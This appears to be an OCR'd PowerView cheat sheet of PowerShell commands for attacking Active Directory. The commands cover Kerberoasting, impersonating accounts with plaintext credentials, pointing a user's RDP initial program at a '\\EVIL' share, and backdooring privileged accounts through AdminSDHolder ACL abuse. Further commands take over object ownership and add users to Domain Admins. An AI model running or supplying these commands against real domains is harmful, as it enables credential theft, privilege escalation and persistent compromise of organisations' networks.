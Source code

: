 # SID --> NAME
```
"S-1-5-21-1874506631-3219952063-538504511-2136" | Convert-SidToName
```
# Without "-Identity" kerberoast all possible users
```
Invoke-Kerberoast [-Identity websvc] 
```
# use an alterate creadential for any function
```
$SecPassword = ConvertTo-SecureString 'BurgerBurgerBurger!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Get-DomainUser -Credential $Cred
```
# if running in -sta mode, impersonate another credential a la "runas /netonly"
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
```
## ... action
```
Invoke-RevertToSelf
```
# Set Values:
## set the specified property for the given user identity
```
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```
## Set the owner of 'dfm' in the current domain to 'harmj0y'
```
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```
## backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
```
## Add user to 'Domain Admins'
```
Add-NetGroupUser -Username username -GroupName 'Domain Admins' -Domain my.domain.local
```
